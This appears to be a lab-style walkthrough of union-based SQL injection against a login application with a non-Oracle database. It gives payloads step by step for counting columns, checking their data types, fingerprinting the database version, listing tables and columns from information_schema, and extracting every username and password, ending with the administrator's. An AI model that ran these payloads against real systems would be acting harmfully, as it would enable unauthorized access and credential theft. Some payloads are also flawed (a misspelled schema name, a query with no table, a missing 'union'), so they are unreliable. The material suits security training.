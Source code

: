 # For non-Oracle database  

You can list the tables in the database by:  
` select * from inofrmation_schema.tables`  

You can list the columns in individual tables by:  
` select * from information_schema.columns where table_name = 'users'`  


The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.  


1. Find the number of columns  
`' order by 1 --`  
-> 200 ok  
` ' order by 3 --`  
-> 500 error  
-- There are two columns in the table  

2. Find the data type of the columns  
` ' union select 'a', NULL --`  
-> 200 OK: the first column is text type  
` ' union select NULL, 'a' --`  
-> 200 OK: the second column is text type  

3. Find the version of the database  
` ' union select @@version, NULL -- `  
-- Microsoft & MySQL database  
` ' union select version(), NULL --`  
-- PostgreSQL database  

4. Output the list of table names in the database  
` ' union select table_name, NULL from information_schema --`  
-> 200 OK: You will get all the table names.  
-- information_schema in PostgreSQL has table names such as table_name, column_name etc.

5. Ouput the column names of the table  
` ' select column_name, NULL from information_schema.columns where table_name = 'users_xacgsm' --`  
-> 200 OK: we get the username.  
--  information_schema.columns in PostgreSQL has column names such as column_name, table_name etc.  

6. Output the usernames and passwords.  
` ' union select username_pxqwui, password_bgvoxs from user_xacgsm --`  
-> 200 OK: we get the username 'administrator' and its corresponding password.
